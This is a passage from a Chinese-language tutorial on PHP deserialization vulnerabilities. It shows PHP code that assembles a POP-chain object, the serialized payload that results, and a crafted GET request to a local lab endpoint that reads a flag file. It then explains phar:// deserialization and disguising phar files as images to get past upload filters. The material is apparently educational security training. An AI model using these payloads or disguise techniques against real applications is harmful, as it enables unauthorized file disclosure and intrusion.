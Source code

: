 ```php
    public $source;
    public function __toString(){
          $content = $this->str['str']->source;
          return (string)$content;
      }
  }
  class Test{
    public $file;
    public $params;
    // 原方法的定义此处省略，因为它对生成序列化字符串没有影响
  }
  $test = new Test();
  $test->params = array('source'=>'/var/www/html/flag.php');
  $show = new Show();
  $show->str = array('str'=>$test);
  $output = new Output($show);
  echo serialize($output);
?>
```

执行后得到如下序列化字符串：

```java
O:6:"Output":2:{s:4:"test";N;s:3:"str";O:4:"Show":2:{s:3:"str";a:1:{s:3:"str";O:4:"Test":2:{s:4:"file";N;s:6:"params";a:1:{s:6:"source";s:22:"/var/www/html/flag.php";}}}s:6:"source";N;}}
```

**5. 将生成的序列化字符串传递给漏洞参数实现利用**

漏洞参数是 GET 参数 str，因此可以如此构造请求：

```java
http://127.0.0.1/vul.php?str=O:6:"Output":2:{s:4:"test";N;s:3:"str";O:4:"Show":2:{s:3:"str";a:1:{s:3:"str";O:4:"Test":2:{s:4:"file";N;s:6:"params";a:1:{s:6:"source";s:22:"/var/www/html/flag.php";}}}s:6:"source";N;}}
```

整个过程可能有点绕，但 POP 链的利用技术就是如此，需要你对目标程序进行全方位的分析，提取出可利用的调用链进行组装，才有可能实现真正的攻击效果。

#### 3.phar 文件攻击

在 2018 年 BlackHat 黑客大会上，安全研究员 Sam Thomas 分享了议题"It's a PHP unserialization vulnerability Jim, but not as we know it"，介绍了一种关于利用 phar 文件实现反序列化漏洞的利用技巧，利用的是 phar 文件中序列化存储用户自定义的 meta-data，在解析该数据时就必然需要反序列化，配合 phar:// 伪协议即可触发对此的反序列化操作。比如如下代码即可触发对 test.txt 文件内容的反序列化操作：

```php
$filename = 'phar://phar.phar/test.txt';
file_get_contents($filename);
```

在实际利用时，还可以对 phar 文件进行格式上的伪造，比如添加图片的头信息，将其伪装成其他格式的文件，用于绕过一些上传文件格式的限制。  

更加具体技术资料，推荐以下两篇：

[《利用 phar 拓展 php 反序列化漏洞攻击面》](https://paper.seebug.org/680/)

[《It's a PHP unserialization vulnerability Jim, but not as we know it》](https://i.blackhat.com/us-18/Thu-August-9/us-18-Thomas-Its-A-PHP-Unserialization-Vulnerability-Jim-But-Not-As-We-Know-It-wp.pdf)
